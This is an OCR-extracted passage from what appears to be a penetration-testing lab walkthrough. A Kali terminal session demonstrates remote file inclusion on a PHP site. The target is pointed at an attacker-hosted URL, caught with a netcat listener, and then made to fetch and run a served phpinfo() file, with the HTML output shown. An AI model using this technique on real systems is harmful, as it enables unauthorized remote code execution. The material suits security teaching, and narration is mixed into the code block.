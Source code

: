 ```bash
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/hola        
We receive a connection on our listener, which confirms the remote file inclusion vulnerability.

┌──(kali㉿kali)-[~]
└─$ sudo nc -lvvp 80                                                                                 
listening on [any] 80 ...
192.168.68.53: inverse host lookup failed: Host name lookup failure
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.53] 49709
GET /hola HTTP/1.0
Host: 192.168.49.68
Connection: close
To confirm that we can execute remote code, we’ll create an info.php file on our attack machine, and serve it from a Python web server on port 80.

┌──(kali㉿kali)-[~]
└─$ cat info.php                                                                                      
<?php
phpinfo();
?>
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80                                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Navigating to our hosted info.php file confirms that our code is being executed on the target.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/info.php
...
</table>
<table>
<tr class="h"><th>PHP Quality Assurance Team</th></tr>
<tr><td class="e">Ilia Alshanetsky, Joerg Behrens, Antony Dovgal, Stefan Esser, Moriyoshi Koizumi, Magnus Maatta, Sebastian Nohn, Derick Rethans, Melvyn Sopacua, Pierre-Alain Joye, Dmitry Stogov, Felipe Pena, David Soria Parra, Stanislav Malyshev, Julien Pauli, Stephen Zarkos, Anatol Belski, Remi Collet, Ferenc Kovacs </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">Websites and Infrastructure team</th></tr>
<tr><td class="e">PHP Websites Team </td><td class="v">Rasmus Lerdorf, Hannes Magnusson, Philip Olson, Lukas Kahwe Smith, Pierre-Alain Joye, Kalle Sommer Nielsen, Peter Cowburn, Adam Harvey, Ferenc Kovacs, Levi Morrison </td></tr>
<tr><td class="e">Event Maintainers </td><td class="v">Damien Seguy, Daniel P. Brown </td></tr>
<tr><td class="e">Network Infrastructure </td><td class="v">Daniel P. Brown </td></tr>
<tr><td class="e">Windows Infrastructure </td><td class="v">Alex Schoenmaker </td></tr>
</table>
<h2>PHP License</h2>
<table>
<tr class="v"><td>
<p>
This program is free software; you can redistribute it and/or modify it under the terms of the PHP License as published by the PHP Group and included in the distribution in the file:  LICENSE
</p>
<p>This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
</p>
<p>If you did not receive a copy of the PHP license, or have any questions about PHP licensing, please contact license@php.net.
</p>
</td></tr>
</table>
</div></body></html> 
```